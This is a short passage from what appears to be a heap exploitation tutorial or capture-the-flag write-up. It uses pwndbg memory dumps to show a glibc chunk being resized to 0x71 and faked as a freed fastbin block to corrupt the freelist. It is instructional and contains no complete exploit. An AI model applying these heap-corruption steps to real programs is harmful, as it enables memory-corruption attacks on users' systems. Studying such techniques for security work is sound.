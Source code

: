 Next, we redistribute the chunk 0xd1 and modify its size to 0x71.


```

pwndbg> x/40ag 0x555555757020

0x555555757020: 0x4141414141414141      0x71

0x555555757030: 0x7ffff7dd1b58 <main_arena+88>  0x7ffff7dd1b58 <main_arena+88>

0x555555757040: 0x4141414141414141      0x4141414141414141

0x555555757050: 0x4141414141414141      0x4141414141414141

0x555555757060: 0x4141414141414141      0x4141414141414141

0x555555757070: 0x4141414141414141      0x4141414141414141

0x555555757080: 0x4141414141414141      0x4141414141414141

0x555555757090: 0x4141414141414141      0x61

```







We then need to fix this 0x71 FD freelist and fake it as a block that has already been released.

```

pwndbg> x/40ag 0x555555757000

0x555555757000: 0x0     0x21

0x555555757010: 0x4141414141414141      0x4141414141414141

0x555555757020: 0x4141414141414141      0x71       <----------  free 0x71

0x555555757030: 0x7ffff7dd1b58 <main_arena+88>  0x7ffff7dd1b58 <main_arena+88>

0x555555757040: 0x4141414141414141      0x4141414141414141

0x555555757050: 0x4141414141414141      0x4141414141414141

0x555555757060: 0x4141414141414141      0x4141414141414141

0x555555757070: 0x4141414141414141      0x4141414141414141

0x555555757080: 0x4141414141414141      0x4141414141414141

0x555555757090: 0x4141414141414141      0x61

0x5555557570a0: 0x0     0x0

0x5555557570b0: 0x0     0x0

0x5555557570c0: 0x0     0x0

0x5555557570d0: 0x0     0x0

0x5555557570e0: 0x0     0x0

0x5555557570f0: 0xd0    0x71   <----------     free 0x71

```